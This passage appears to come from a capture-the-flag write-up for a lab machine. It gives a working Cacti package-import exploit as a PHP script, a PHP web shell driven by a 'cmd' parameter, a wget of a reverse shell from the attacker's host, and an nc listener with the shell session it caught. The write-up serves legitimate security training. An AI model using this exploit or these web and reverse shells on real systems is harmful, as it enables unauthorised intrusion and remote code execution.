 ```php
<?php

$xmldata = "<xml>
   <files>
       <file>
           <name>resource/test.php</name>
           <data>%s</data>
           <filesignature>%s</filesignature>
       </file>
   </files>
   <publickey>%s</publickey>
   <signature></signature>
</xml>";
$filedata = "<?php phpinfo(); ?>";
$keypair = openssl_pkey_new(); 
$public_key = openssl_pkey_get_details($keypair)["key"]; 
openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
$data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
file_put_contents("test.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
system("cat test.xml | gzip -9 > test.xml.gz; rm test.xml");

?>
```

Next run the php file and upload the created .xml.gz file.

![cacti package import test]({{ page.img }}_cacti_package_import_test.png)

![cacti phpinfo]({{ page.img }}_cacti_test_php.png)

As of note here I had to upload a few times to get it to work. There is an auto-cleanup script happening so be sure to have a replay of the upload ready for when it cleans the cacti root directory. That said the exploit worked and I can upload any php file I desire. I'll upload a basic shell and upgrade it if I need to. I changed the php to `$filedata = '<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>'` and tested with id:

![cacti php rce]({{ page.img }}_cacti_php_rce.png)

The solution I went with here was to upload a pentestmonkey shell for something more stable but still lightweight. In order I visited

```
http://cacti.monitorsthree.htb/cacti/resource/test.php?cmd=id
http://cacti.monitorsthree.htb/cacti/resource/test.php?cmd=wget%20http://10.10.14.12:8081/shell.php
http://cacti.monitorsthree.htb/cacti/resource/shell.php
```

```bash
nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.11.30 42296
Linux monitorsthree 5.15.0-118-generic #128-Ubuntu SMP Fri Jul 5 09:28:59 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 21:43:57 up  7:42,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1141): Inappropriate ioctl for device
bash: no job control in this shell
www-data@monitorsthree:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
